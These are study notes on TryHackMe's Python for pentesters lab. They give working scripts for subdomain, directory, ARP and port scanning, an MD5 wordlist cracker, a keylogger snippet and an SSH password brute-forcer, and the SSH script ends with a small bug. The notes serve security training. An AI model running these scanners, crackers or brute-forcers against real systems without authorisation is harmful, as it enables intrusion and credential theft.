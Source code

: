 # Python
## Python basics
**Disclaimer:** I'm not going to summarize python as there's plenty of resources to learn it.
Here's some common takeaways, not in any particular order. All of these examples are straight from the TryHackMe website and script modification will be needed to make them work.


Popular libraries / tools you may find useful in scripting as a pentester:
- Request - simple HTTP library.
- Scapy - send, sniff, dissect and forge network packets
- Pwntools - a CTF & exploit development library.
- Tool to convert python into windows executable: `py2exe`

## Subdomain enumeration
Python gives us an easy way to automate tasks during a penetration test. Any tasks that you have to perform regularly are worth automating.
While the automation process comes with a learning curve, the mid and long-term gains are worth it.

The script then tries to connect to the subdomains and assumes the ones that accept the connection exist.

```py
import requests 
import sys 

sub_list = open("subdomains.txt").read() 
subdoms = sub_list.splitlines()

for sub in subdoms:
    sub_domains = f"http://{sub}.{sys.argv[1]}" 

    try:
        requests.get(sub_domains)
    
    except requests.ConnectionError: 
        pass
    
    else:
        print("Valid domain: ",sub_domains)   
```

## Directory enumeration
Once subdomains have been discovered, the next step would be to find directories.

```py
import requests 
import sys 

sub_list = open("wordlist.txt").read() 
directories = sub_list.splitlines()

for dir in directories:
    dir_enum = f"http://{sys.argv[1]}/{dir}.html" 
    r = requests.get(dir_enum)
    if r.status_code==404: 
        pass
    else:
        print("Valid directory:" ,dir_enum)
```

## Network scanner
Python can be used to build a simple ICMP (Internet Control Message Protocol) scanner to identify potential targets on the network.
However, ICMP packets can be monitored or blocked as the target organization would not expect a regular user to “ping a server”.
On the other hand, systems can be configured to not respond to ICMP requests.
These are the main reasons why using the ARP (Address Resolution Protocol) to identify targets on the local network is more effective.

```py
from scapy.all import *

interface = "eth0"
ip_range = "10.10.X.X/24"
broadcastMac = "ff:ff:ff:ff:ff:ff"

packet = Ether(dst=broadcastMac)/ARP(pdst = ip_range) 

ans, unans = srp(packet, timeout =2, iface=interface, inter=0.1)

for send,receive in ans:
        print (receive.sprintf(r"%Ether.src% - %ARP.psrc%"))     
```

## Port scanner
```py
import sys
import socket
import pyfiglet

ascii_banner = pyfiglet.figlet_format("TryHackMe \n Python 4 Pentesters \nPort Scanner")
print(ascii_banner)

ip = '192.168.1.6' 
open_ports =[] 

ports = range(1, 65535)

def probe_port(ip, port, result = 1): 
  try: 
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    sock.settimeout(0.5) 
    r = sock.connect_ex((ip, port))   
    if r == 0: 
      result = r 
    sock.close() 
  except Exception as e: 
    pass 
  return result

for port in ports: 
    sys.stdout.flush() 
    response = probe_port(ip, port) 
    if response == 0: 
        open_ports.append(port) 
    
if open_ports: 
  print ("Open Ports are: ") 
  print (sorted(open_ports)) 
else: 
  print ("Looks like no ports are open :(")
```

## File downloader
```py
import requests

url = 'https://download.sysinternals.com/files/PSTools.zip'
r = requests.get(url, allow_redirects=True)
open('PSTools.zip', 'wb').write(r.content)  
```

## Hash cracker
```py
import hashlib
import pyfiglet

ascii_banner = pyfiglet.figlet_format("TryHackMe \n Python 4 Pentesters \n HASH CRACKER for MD 5")
print(ascii_banner)

wordlist_location = str(input('Enter wordlist file location: '))
hash_input = str(input('Enter hash to be cracked: '))

with open(wordlist_location, 'r') as file:
    for line in file.readlines():
        hash_ob = hashlib.md5(line.strip().encode())
        hashed_pass = hash_ob.hexdigest()
        if hashed_pass == hash_input:
            print('Found cleartext password! ' + line.strip())
            exit(0)
```

## Keyloggers
```py
import keyboard
keys = keyboard.record(until ='ENTER')
keyboard.play(keys)
```

## SSH brute forcing
```py
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```
